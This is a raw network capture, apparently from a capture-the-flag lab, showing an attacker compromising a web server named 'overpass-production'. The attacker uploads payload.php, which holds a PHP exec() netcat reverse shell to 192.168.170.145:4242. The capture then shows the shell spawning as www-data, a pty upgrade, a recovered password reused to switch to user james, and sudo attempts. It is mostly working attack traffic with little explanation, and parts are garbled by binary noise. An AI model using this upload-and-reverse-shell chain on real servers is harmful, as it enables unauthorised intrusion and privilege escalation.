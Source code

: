 Content-Type: application/x-php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"
-----------------------------1809049028579987031515260006--
+HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 39
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
The file payload.php has been uploaded.
GET /development/uploads/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Date: Tue, 21 Jul 2020 20:34:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 472
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html;charset=UTF-8
5P}wGET /development/uploads/payload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/uploads/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
/bin/sh: 0: can't access tty; job control turned off
uid=33(www-data) gid=33(www-data) groups=33(www-data)
james-xubuntu-2004
vpython3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ 
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ 
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.
www-data@overpass-production:/var/www/html/development/uploads$ 
whenevernoteartinstant
 james@overpass-production:/var/www/html/development/uploads$ 
james@overpass-production:~$ 
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ 
[sudo] password for james: 
whenevernoteartinstant
gMatching Defaults entries for james on overpass-production: